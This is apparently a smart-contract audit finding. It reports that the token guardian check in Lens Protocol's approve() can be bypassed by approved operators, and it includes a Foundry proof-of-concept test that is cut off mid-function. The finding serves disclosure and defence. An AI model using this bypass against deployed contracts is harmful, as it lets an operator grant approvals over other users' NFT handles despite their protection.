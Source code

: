 However, this check is inadequate as approved operators (addresses approved using `setApprovalForAll()` by the owner) are also allowed to call `approve()`. We can see this in Openzeppelin's ERC-721 implementation:

[ERC721.sol#L116-L119](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v4.8/contracts/token/ERC721/ERC721.sol#L116-L119)

```solidity
        require(
            _msgSender() == owner || isApprovedForAll(owner, _msgSender()),
            "ERC721: approve caller is not token owner or approved for all"
        );
```

As such, even if an owner has token guardian enabled, approvals can still be set for his tokens by other approved operators, leaving the owner's tokens vulnerable. For example:

*   Alice sets Bob as an approved operator using `setApprovalForAll()`.
*   Alice enables token guardian using `enableTokenGuardian()`.
*   If Bob wants to set approvals for Alice's tokens, he can do so by:
    *   Disabling his own token guardian using `DANGER__disableTokenGuardian()`.
    *   Calling `approve()` for Alice's tokens. This will still work, even though Alice has token guardian enabled.

Note that the `approve()` function in `LensProfiles.sol` also has the same vulnerability.

### Impact

As token guardian protection in `approve()` does not account for approved operators, although an owner has token guardian enabled, approved operators will still be able to set approvals for his tokens.

### Proof of Concept

The following Foundry test demonstrates the example above:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import 'forge-std/Test.sol';
import '../contracts/namespaces/LensHandles.sol';

contract TokenGuardian_POC is Test {
    LensHandles lensHandles;

    address ALICE;
    address BOB;
    uint256 tokenId;

    function setUp() public {
        // Setup LensHandles contract
        lensHandles = new LensHandles(address(this), address(0), 0);

        // Setup Alice and Bob addresses
        ALICE = makeAddr("Alice");
        BOB = makeAddr("Bob");

        // Mint "alice.lens" to Alice
        tokenId = lensHandles.mintHandle(ALICE, "alice");
    }
    
    function testCanApproveWhileTokenGuardianEnabled() public {
        // Alice disables tokenGuardian to set Bob as an approved operator
        vm.startPrank(ALICE);
        lensHandles.DANGER__disableTokenGuardian();
        lensHandles.setApprovalForAll(BOB, true);
```